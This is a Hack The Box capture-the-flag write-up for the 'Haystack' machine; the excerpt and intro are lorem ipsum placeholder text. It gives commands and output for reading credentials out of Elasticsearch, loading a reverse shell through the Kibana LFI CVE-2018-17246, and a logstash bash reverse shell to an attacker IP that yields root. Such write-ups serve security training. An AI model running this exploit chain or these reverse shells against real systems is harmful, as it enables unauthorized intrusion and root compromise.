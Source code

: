 ```yaml
---
layout: single
title: Haystack - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-haystack/haystack_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-haystack/haystack_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV 10.10.10.115
    22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
    80/tcp   open  http    nginx 1.12.2
    9200/tcp open  http    nginx 1.12.2
    |_http-server-header: nginx/1.12.2
    |_http-title: 502 Bad Gateway

2. Download the image from http://10.10.10.115

3. strings needle.jpg shows base64 code at the end: bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

    Decrypt gives us following Spanish text: la aguja en el pajar es "clave"
    .. or in English: the needle in the haystack is "key"

4. http://10.10.10.115:9200
    Clustername "elasticsearch" hints on how to move on. Googling elasticsearch gives the URI-syntax _search?q=WORD
    https://www.elastic.co/guide/en/elasticsearch/reference/current/search-uri-request.html

    http://10.10.10.115:9200/_search?q=clave
    "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
    "I have to save the key for the machine: dXNlcjogc2VjdXJpdHkg"

    "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
    "This key cannot be lost, I save it here: cGFzczogc3BhbmlzaC5pcy5rZXk="

5. Decrypt the keys (base64):
    dXNlcjogc2VjdXJpdHkg --> user: security
    cGFzczogc3BhbmlzaC5pcy5rZXk= --> pass: spanish.is.key

6. SSH with user/pass given above.
    [security@haystack ~]$ whoami
    security
    [security@haystack ~]$ cd /home/security/
    [security@haystack ~]$ ls -al
    total 16
    drwx------. 2 security security  99 Feb  6  2019 .
    drwxr-xr-x. 3 root     root      22 Nov 28  2018 ..
    lrwxrwxrwx. 1 root     root       9 Jan 25  2019 .bash_history -> /dev/null
    -rw-r--r--. 1 security security  18 Apr 10  2018 .bash_logout
    -rw-r--r--. 1 security security 193 Apr 10  2018 .bash_profile
    -rw-r--r--. 1 security security 231 Apr 10  2018 .bashrc
    -rw-r--r--. 1 security security  33 Feb  6  2019 user.txt
    [security@haystack ~]$ cat user.txt
    04d*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Scan system with lse to find vulns. Under "Processes running with root permissions" we can find a lot of output regarding logstash.
    Reading up on logstash it is used for Kibana. Kibana uses port 5601 which is running locally.

    [security@haystack shm]$ ./lse.sh -l1
    [*] net000 Services listening only on localhost............................ yes!
    tcp    LISTEN     0      128    127.0.0.1:5601                  *:*


2. Setup a (remote) SSH tunnel to access the service from the attacking host.
    Remotly from Haystack: ssh -R 5601:127.0.0.1:5601 p3@10.10.14.7
    Or locally from Kali: ssh -L 5601:localhost:5601 security@10.10.10.115

    Open a web browser to http://127.0.0.1:5601 and you'll reach Kibana.

3. Kibana runs version 6.4.2 and is vulnerable for LFI (CVE-2018-17246)
    https://github.com/mpgn/CVE-2018-17246

    Upload a .js reverse shell to /dev/shm, start netcat locally and run the LFI:
    http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/node-rev.js

4. We don't get immediate root access with user kibana, so better upgrade to a proper shell
    root@p3:/opt/shells# nc -lnvp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 41040
    whoami
    kibana
    cd /root
    /bin/sh: línea 3: cd: /root: Permiso denegado

5. Using lse.sh again we can see that dir /etc/logstash/conf.d is writable and has three interesting config files; filter.conf, input.conf, output.config
    input.conf looks for a file to execute every 10s in path /opt/kibana/ with filename logstash_*, however it must match the syntax of filter.conf

6. Create a reverse shell to be executed, matching input.conf and filter.conf
    bash-4.2$ echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.7/3366 0>&1" > /opt/kibana/logstash_p3.txt

7. Start netcat and wait for the incoming root shell
    root@p3:/opt/shells$ nc -lnvp 3366
    listening on [any] 3366 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 60796
    bash: no hay control de trabajos en este shell
    [root@haystack /]# whoami
    whoami
    root
    [root@haystack /]# cat /root/root.txt
    cat /root/root.txt
    3f5******************************
